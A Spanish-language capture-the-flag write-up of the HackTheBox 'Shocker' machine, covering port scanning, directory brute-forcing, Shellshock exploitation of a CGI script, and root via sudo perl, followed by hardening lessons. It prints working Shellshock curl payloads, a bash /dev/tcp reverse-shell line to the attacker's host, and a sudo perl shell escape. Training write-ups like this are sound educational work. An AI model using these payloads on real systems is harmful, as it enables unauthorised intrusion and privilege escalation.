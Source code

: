 ```yaml
---
title: HackTheBox Shocker
date: 2021-07-18 12:00:00 -0400
image: 
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/banner.png
  height: 1100
  width: 500  
categories: [HTB Writeups, Linux Easy]
tags: [perl, shellshock, sudo, cgi-bin, gobuster]
---
```


***

**Machine IP** : 10.10.10.56

**DATE**  : 18/07/2021

***

## Matriz de la maquina


Esta matriz nos muestra las características de explotación de la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/matrix.png)

## Reconocimiento


Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

Usamos el siguiente comando para escanear todos los puertos de una manera rapida.

```bash
nmap -p- --open -T5 -v -n -Pn 10.10.10.56
```

Posteriormente utilizamos este comando con los puertos del anterior escaneo para saber las versiones de cada servicio.

```bash
nmap -sC -sV -n -p2222,80 -Pn 10.10.10.56
```

Nos arroja este resultado:

```bash
~/HTB/shocker  nmap -sC -sV -p80,2222 10.10.10.56                                                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-18 00:02 EDT
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site does not have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.00 seconds
```

Podemos observar dos puertos abiertos, el `2222` que pertenece a `ssh` y el `80` que es un `http`, procederemos a revisar la web que corre en el servicio http y haremos una busqueda de directorio con `gobuster`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/web.png)

Luego de probar varios diccionarios con `gobuster` encontré un directorio interesante.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/small.txt -t 100 -q -e                                                                               
http://10.10.10.56/cgi-bin/             (Status: 403) [Size: 294]

```

Investigando sobre la procedencia de este directorio encontré que se relacionaba con una vulnerabilidad que se llamaba [shellshock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock).


Leyendo el post anterior entendí como funcionabala vulnerabilidad, entonces utilizé `gobuster` nuevamente con la flag -x para que me busque archivos con extensiones .sh, para encontrar los scripts dentro de este directorio y obtuve `user.sh`.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 100 -x sh -q -e 
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 126]
```

Haciendo `curl` a la pagina con el comando `whoami` para saber si funciona.

```bash
curl -H "User-agent: () { :;}; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
shelly
```

Vemos que nos responde con el usuario `shelly` ejecutando el comando `whoami`, entonces trataremos de obtener una `reverse shell` con el comando.

```bash
curl -H  "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.18/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Haciendo un `netcat -nlvp 443` en nuestra maquina, obtenemos una `shell reversa` con el usuario `shelly` y el `user.txt`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/usertxt.png)

## Escalamiento de privilegios

Luego de obtener acceso como el usuario david, probé con `sudo -l` para listar los `binarios` que se pueden ejecutar como sudo, se aprecia que se puede ejecutar el binario `perl` con permisos `root`, entonces este vector de ataque ya es conocido.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/sudol.png)

Nos vamos a nuestra mejor amiga [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/#sudo) y encontramos el siguiente comando que llama a una shell como `sudo` con el binario `perl`.

```bash
sudo perl -e 'exec "/bin/sh";'
```

Obtenemos acceso `root` y el `root.txt`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/roottxt.png)

## Conclusiones

Fue una buena maquina para aprender lecciones puntuales como las siguientes...

Hubo una mala configuración del servidor web. No se me permitía acceder al directorio `/cgi-bin` pero por alguna razón se me permitía acceder al archivo `user.sh` dentro de ese directorio, el administrador debería haber restringido el acceso a todos los archivos del directorio.

Otro detalle es que el servidor web estaba ejecutando comandos bash en un sistema que ejecutaba una versión de Bash que era vulnerable a la vulnerabilidad `Shellshock`, esto nos permitió obtener el acceso inicial al sistema.

El ultimo detalle fue configuración insegura del sistema, siempre hay que ajustarse al `principio de mínimo privilegio` y al concepto de separación de privilegios.

Dar al usuario `sudo` acceso para ejecutar `perl`, me permitió  escalar privilegios.

Recomendaría mantener actualizada las versiones de bash para que no interpete `() { :; };` de una manera erronea.

Evita jugar con la configuración de sudo si no estás seguro de lo que haces y de cómo se puede abusar de ello. Echa un vistazo a `GTFObins` para empezar..

Gracias por leer, Happy hacking and always try harder!